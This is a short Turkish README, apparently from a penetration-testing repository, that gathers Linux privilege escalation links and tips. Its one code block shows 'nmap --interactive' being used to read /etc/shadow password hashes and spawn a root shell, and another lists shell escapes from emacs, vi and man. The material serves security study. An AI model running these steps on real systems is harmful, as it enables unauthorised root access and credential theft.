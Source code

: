 # Linux Yetki Yükseltme (Privilege Escalation)

Sağda solda denk geldiğim ve yetki yükseltme için işe yarayabilecek scriptler. Linux ve unix sistemler için konfigürasyon eksikliklerine ve yetki yükseltmeye sebep olabilecek zafiyetlere bakıyorlar.

tools klasörünün altında README dosyaları ile beraber bulunmakta.

## Bakılabilecek kaynaklar
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- http://netsec.ws/?p=309
- https://n0where.net/linux-post-exploitation/
- https://highon.coffee/blog/linux-commands-cheat-sheet/
- http://www.rebootuser.com/?p=1623
- http://pentestmonkey.net/tools/audit/unix-privesc-check


## Manuel kontrol

- Shell Escape Sequences
- IFS Exploit
- LD_PRELOAD Exploit
- Symlinks

bkz -> http://www.dankalia.com/tutor/01005/0100501004.htm

## SUID bit 

````
- emacs - by entering alt+!
- vi - by entering :![commandname]
- man - by entering![command name] replacing [command name] with the program you wish to run.
````

````
nmap --interactive
> !whoami              # root
> !cat /etc/shadow     # SUCCESS: prints out hashed passwords
> !bash                # SUCCESS: launches root shell
````
bkz -> https://gist.github.com/dergachev/7916152

